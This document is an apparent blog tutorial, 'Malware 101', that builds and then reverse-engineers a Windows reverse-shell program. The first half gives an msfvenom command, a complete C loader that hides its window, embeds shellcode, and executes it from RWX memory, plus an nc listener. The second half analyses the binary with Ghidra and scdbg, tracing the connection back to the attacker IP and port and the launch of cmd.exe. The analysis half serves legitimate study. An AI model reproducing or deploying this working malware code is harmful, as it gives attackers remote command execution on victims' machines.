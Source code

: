 ```yaml
---
title:  "Malware 101: Develop and Analyze our own malware"
tags:
- Malware
- Reverse Engineering
---
```


In this post, we'll learn together how to write a basic malware program that does a reverse shell connection (using shellcode) and analyze our own compiled malware. We'll play around with C code using Visual Studio IDE and MSVenom for the creation of the shellcode. The maldev and malware reversing is only for education purpose only!

# Malware development
## Create a new project in Visual Studio
We'll start with creating a new project. Choose the "Console App". Make sure you choose C++.

![image](https://user-images.githubusercontent.com/56353946/134101602-d20f27df-8714-4e1f-b3c9-ee7e0b549ef6.png)

Name your new project. I'm gonna use "revshell_exe".

![image](https://user-images.githubusercontent.com/56353946/134101656-1e5e23a5-218e-47e2-8a66-046496247a28.png)

Now, let's go to our Kali and fire up `msvenom` to generate our Windows reverse shell's shellcode to embed in our malware executable.

## Generate reverse shell's shellcode using MSVenom
Before we generate a "shellcode". Some of the beginners might have no idea what does the shellcode means. So, "Shellcode" is a set of instructions that executes a command in software to take control of or exploit a compromised machine. In our case here, our shellcode is to gain the remote system shell of our victim. 
The shellcode is not only for shell access, instead there's much other shellcode action that could be done by the author like privilege escalation and many more.

To generate the shellcode using msvenom, run this command below:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c
```
Example:
![image](https://user-images.githubusercontent.com/56353946/134104090-9e583dc7-1a98-448a-b3b2-cade2e54b17a.png)

All we need now is to copy the shellcode I highlighted in the red box and paste it into our `main` function inside VS IDE.

## Coding
When it comes to programming, you need to be familiar with C and WinAPI. Below codes, I've put some comments to guide and understand what does the code does.

```
#include <Windows.h>

int main()
{
    // Run our executable console app in the background
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), false);
    
    // MSVenom shellcode payload here
    unsigned char buf[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
        "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68"
        "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
        "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
        "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
        "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
        "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
        "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

    //Allocate memory for the shellcode
    PVOID shellcode = VirtualAlloc(0, sizeof buf, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //Copies contents of memory block to destination
    RtlCopyMemory(shellcode, buf, sizeof buf);

    //Execute shellcode as new thread
    DWORD threadID;
    HANDLE handleThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode, NULL, 0, &threadID);

    //Wait till thread terminates
    WaitForSingleObject(handleThread, INFINITE);
}
```

If you don't understand the WinAPI, here is some documentation from Microsoft:

0. ShowWindow = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow)
1. VirtualAlloc = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)
2. RtlCopyMemory = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory)
3. CreateThread = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)
4. WaitForSingleObject = [Microsoft documentation link](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)

## Test out our malware
Check for any errors in your code and now we are good to go.

In our Kali, let's listen to our reverse shell. In my case, my port will be on 4444.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvp 4444                                                             
listening on [any] 4444 ...
```

In "Solution Configurations", change `Debug` to `Release`. Then, click Run icon.

![image](https://user-images.githubusercontent.com/56353946/134106107-ea72aebb-989b-411e-8bc8-1615343f21c1.png)

After the program executed, our Kali will gain the remote shell cmd.

![image](https://user-images.githubusercontent.com/56353946/134106322-be7021e7-b46e-4827-a00b-a4aa78dfd062.png)

Our shellcode and malware successfully execute.

# Malware analysis and reversing
Now copy your malicious executable from Release folder into your malware analysis lab and start analysing + reversing the program.

## Ghidra analysis
The result of decompiler of Ghidra have a slightly changes from our code. This is due to the how compiler compiled our executable and how the Ghidra translate from the assembly code.

Here the explaination of the decompiled code:
![image](https://user-images.githubusercontent.com/56353946/134110659-9ddd86a9-b7c4-41b4-b290-38cd6128b325.png)

## Extract shellcode
From the decompiler code, we can locate the shellcode in the Ghidra.
![image](https://user-images.githubusercontent.com/56353946/134120641-35e9e82b-f9ef-4a72-ac4b-7287fc654362.png)

This will bring us to the shellcode bytes in the "Listing view".
![image](https://user-images.githubusercontent.com/56353946/134120921-119550ac-b403-4ac9-bb6f-61fa2595368f.png)

To extract the shellcode, select all the bytes until the finish.
![image](https://user-images.githubusercontent.com/56353946/134121249-9c8cb16d-ca5e-44ab-91b2-71f6b94d077f.png)

Go to Window tab > Bytes: filename.exe. The selected bytes now also been selected in the hex view.
![image](https://user-images.githubusercontent.com/56353946/134121356-61fe7c0b-d3df-4ec3-aaf9-6a9cef4774ca.png)

Copy the bytes and paste into hex editor like HxD. And save it.
![image](https://user-images.githubusercontent.com/56353946/134121520-9771cd80-3114-4689-a466-31ae8b9e5211.png)

Now to analyze the shellcode, there's some options:
1. Use scdbg <-- We will use this
2. Use jmp2it
3. Convert the shellcode into executable. And debug the executable using x32dbg.

## Shellcode analysis
The output below of the scdbg for our shellcode is quite helpful. In our case here, the shellcode was easy to be analyzed. At sometimes, a complex shellcode will not be a simpler like this

![image](https://user-images.githubusercontent.com/56353946/134122559-81100c4a-f7a0-4cc4-83fc-23006b87a167.png)

`LoadLibraryA(ws2_32)`: First, the process will load the DLL file "ws2_32.dll" using LoadLibrary API.

`WSAStartup(190)`: After that, it calls WSAStartup function to initiate the utilization of the Winsock DLL by the current process.

`WSASocket(af=2, tp=1, proto=0, group=0, flags=0)`: It then call the WSASocket to creates a socket.

If we refer the documentation of WSASocket, here the explaination about the number in the prameter:
- af=2 -> The Internet Protocol version 4 (IPv4) address family. 
- tp=1 -> SOCK_STREAM
- proto=0 -> the service provider will choose the protocol to use
- group=0 -> No group operation is performed.
- flags=0 -> A set of flags used to specify additional socket attributes.

`connect(h=42, host: 192.168.0.128 , port: 4444 ) = 71ab4a07`: At this line, the program will establishes a connection to a specific socket. The parameter contains IP of the attacker and his port which will be used to get a reverse shell.

`CreateProcessA( cmd,  ) = 0x1269`: Our shellcode then executes cmd.exe by calling CreateProcessA API

`WaitForSingleObject(h=1269, ms=ffffffff)`: This function will terminate the program when our reverse shell been killed.

`ExitProcess(0)`: Exit and terminate current process.

# Sum up
In the conclusion, we've learn how to develop a malware that leverage our metasploit shellcode to create the connection to our C2. In the code, we can see that the malware first will be run in the background. And then it allocates some memory space for our shellcode. After allocating the memory region, our shellcode is then being copy to the allocated memory. Then, it uses CreateThread API to execute the shellcode. In the shellcode, it will connect to our IP and port to gain the reverse shell of cmd.exe.
